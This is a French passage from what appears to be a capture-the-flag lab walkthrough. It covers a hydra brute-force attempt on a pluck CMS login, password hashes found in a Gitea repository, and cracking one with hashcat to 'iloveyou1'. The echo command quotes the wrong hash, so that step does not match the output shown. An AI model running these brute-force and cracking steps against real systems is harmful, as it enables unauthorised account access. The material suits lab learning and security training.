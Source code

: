 ```bash
cont1=test&bogus=&submit=Log+in
```

On voit que le champ pour le mot de passe se nomme `cont1` et il semble y avoir un champ bogus qui est envoyé aussi pour prévenir le bruteforce.

Une fois ces informations en mains, on essaye de cracker le login avec hydra et rockyou.txt:

```bash
hydra -v -V -d -l username -P /home/kali/rockyou.txt -t 16 -m "/login.php:cont1=^PASS^&bogus=&submit=Log+in:F=incorrect" http-post-form://greenhorn.htb
```

Cependant, on se rend vite compte qu'il y a une protection contre le bruteforce

```bash
You have exceeded the number of login attempts. Please wait 5 minutes before logging in again.
```

Ayant épuisé les pistes pour pluck pour le moment, on tourne notre attention vers gitea.
En fouillant un peu, on trouve un répertoire qui semble héberger le code source pour pluck:

```bash
http://10.10.11.25:3000/GreenAdmin/GreenHorn
```

On est en mesure de créer un compte, ajouter une clé ssh et cloner le repo. Malheureusement, il n'est pas possible d'uploader un fichier avec `git push`.

En poussant l'exploration du repo plus loin, on trouve 2 fichiers intéressants, token.php et pass.php:

```php
http://10.10.11.25:3000/GreenAdmin/GreenHorn/src/branch/main/data/settings/token.php
<?php $token = '65c1e5cf86b4d727962672211b91924b828a0c05ece3954c75e3befa6b361fa3eb28c407f7101bc4eae2c604c96c641575c7fe82dbdc6ce0cf7d4a006f53bac7'; ?>
```

```php
http://10.10.11.25:3000/GreenAdmin/GreenHorn/src/branch/main/data/settings/pass.php
<?php
$ww = 'd5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163';
?>
```

On réalise vite que pass.php contient un hash sha-512.
On tente donc de le décoder avec hashcat et rockyou.txt

```bash
echo "65c1e5cf86b4d727962672211b91924b828a0c05ece3954c75e3befa6b361fa3eb28c407f7101bc4eae2c604c96c641575c7fe82dbdc6ce0cf7d4a006f53bac7" > hash.txt
hashcat -m 1700 -a 0 hash.txt /home/kali/rockyou.txt
```

Une fois décodé, on obtient le mot de passe `iloveyou1`:

```bash
Dictionary cache hit:
* Filename..: /home/kali/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

d5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163:iloveyou1
```
